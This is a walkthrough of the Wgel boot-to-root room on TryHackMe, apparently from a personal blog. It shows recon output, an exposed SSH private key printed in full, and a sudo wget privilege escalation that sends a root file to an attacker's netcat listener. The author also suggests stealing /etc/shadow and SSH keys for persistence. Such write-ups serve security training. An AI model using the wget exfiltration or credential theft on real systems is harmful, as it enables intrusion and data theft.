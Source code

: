 ```yaml
---
title: "Simple Boot to Root: Wgel CTF Walkthrough"
datePublished: Tue Aug 15 2023 12:44:50 GMT+0000 (Coordinated Universal Time)
cuid: cllcaq92z00020ajv636kebt5
slug: wgel-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1692102272955/2dc3f231-812c-4e86-9fbd-5e533b5f883c.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ethicalhacking

---
```


This is a straightforward boot-to-root walkthrough of the Wgel CTF found on TryHackMe. The objective of this room is to perform active reconnaissance on a web server, obtain credentials, and log in using an exposed SSH key. The final step involves elevating to root by employing a privilege escalation technique with the `wget` binary.

### Step 1: What's Out There?

```plaintext
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/9%OT=22%CT=1%CU=30945%PV=Y%DS=4%DC=T%G=Y%TM=64AB91B3
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%II=I%TS=A)SEQ(SP=10
OS:4%GCD=1%ISR=109%TI=Z%CI=RD%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%TS=A)SEQ(S
OS:P=107%GCD=1%ISR=109%TI=Z%CI=I%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%T
OS:S=A)OPS(O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=
OS:M509ST11NW7%O6=M509ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=6
OS:8DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0
OS:%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 47.132 days (since Tue May 23 19:55:59 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We are examining two ports: `22` and `80`. Given that we can't do much with SSH unless we attempt to brute force it, and without a username, we would be relentlessly attacking this service, wasting time and probably making no progress. Therefore, the best approach is to enumerate the webserver to find a way in.

Default Apache2 Landing Page:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102430397/7966773b-6539-41dc-aeaa-533458969c49.png align="center")

The source code reveals a potential username: `Jessie`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102478196/1cbd7a70-e967-45e2-8919-08317e1dc565.png align="center")

### Step 2: Enumerate Using Gobuster

```bash
gobuster dir --url http://10.10.56.178/sitemap -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 100 -q
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102543441/959ab724-51fd-49f6-a135-4ba7216efe22.png align="center")

Let's navigate to [`http://10.10.56.178/sitemap/.ssh/`](http://10.10.56.178/sitemap/.ssh/)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102577951/43dd3297-168f-4074-a32b-b99ddfd7788a.png align="center")

```plaintext
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

Excellent! An unsecured SSH key without a passphrase. We can easily generate our `id_rsa` key, set the permissions, and log in to the web server using this.

### Step 3: Log in

Copy and paste the key into a text file and name it `id_rsa`. Adjust the permissions:

```bash
sudo chmod 600 id_rsa
```

Log in:

```bash
ssh -i id_rsa jessie@10.10.56.178
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102825560/6035435a-f341-4528-8f98-1d7ab5ffa6b9.png align="center")

Our first flag can be found at this location:

```bash
/home/jessie/Documents
```

### Step 4: Privesc and Root

Now that we have a foothold on the server, let's explore what we can use to elevate our privileges. First, I like to check what the user is allowed to run as `sudo`. We can do this by typing:

```bash
sudo -l
```

Looks like we can use the binary:

```bash
/usr/bin/wget
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102993678/fac3ffc0-02ac-4f07-aedc-b4cca60b1507.png align="center")

Upon seeing something like this, your mind should instantly consider privilege escalation. [GTFObins](https://gtfobins.github.io/) is a valuable resource for finding elevation techniques.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103102039/6243510d-5697-42ff-90bd-6fdb2c9af820.png align="center")

We can transmit content to our attack box with `sudo` privileges, effectively granting us access to view materials that would otherwise be restricted. We can easily use `wget` to display the root flag.

Start a netcat listener:

```bash
nc -lvnp 80
```

From the web server:

```bash
sudo /usr/bin/wget http://10.13.28.215:80 --post-file=/root/root_flag.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103281913/d6604069-0fd0-46bd-9cd4-140bbcc6eb0c.png align="center")

Boom, we've obtained the root flag. From here, we can use this binary to acquire other `SSH` keys, the `/etc/shadow` file, and more to help us maintain persistence.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103417697/0d0e1534-594d-4cfb-b42a-fff74ab2495a.jpeg align="center")